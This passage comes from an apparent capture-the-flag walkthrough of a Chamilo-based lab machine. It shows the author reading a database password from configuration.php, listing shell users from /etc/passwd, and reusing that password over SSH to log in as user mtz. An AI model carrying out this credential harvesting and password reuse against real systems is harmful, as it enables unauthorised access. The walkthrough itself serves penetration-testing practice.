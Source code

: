 ```php
$database = new \Database();
$dbParams = [
    'driver' => 'pdo_mysql',
    'host' => $_configuration['db_host'],
    'user' => $_configuration['db_user'],
    'password' => $_configuration['db_password'],
    'dbname' => $_configuration['main_database'],
];
```
It appears these values are sourced from `./app/config/configuration.php`, as evidenced by the following lines of code:
```php
$configurationFile = __DIR__.'/app/config/configuration.php';

if (!is_file($configurationFile)) {
    echo "File does not exists: $configurationFile";
    exit();
}
```

Upon examining `./app/config/configuration.php`, we quickly locate the `db_user` and `db_password`:

```php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
With these credentials, we can potentially access the Chamilo database and further our exploitation efforts.
## Attempting to Access the Database
Upon attempting to connect to MySQL, we quickly encounter an "Access Denied" error for the `www-data` user, indicating that this user does not have the necessary permissions. 
```bash
www-data@permx:~/chamilo$ mysql
ERROR 1698 (28000): Access denied for user 'www-data'@'localhost'
```

## Checking for Other Users
By reviewing the `/etc/passwd` file, we notice another user present on the system named `mtz`.
```bash
www-data@permx:~/chamilo$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

## Attempting SSH with Found Credentials
Let's try to SSH into the `mtz` account using the password we discovered in the Chamilo configuration file.
```bash
$ ssh mtz@permx.htb
The authenticity of host 'permx.htb (10.129.195.240)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb' (ED25519) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

```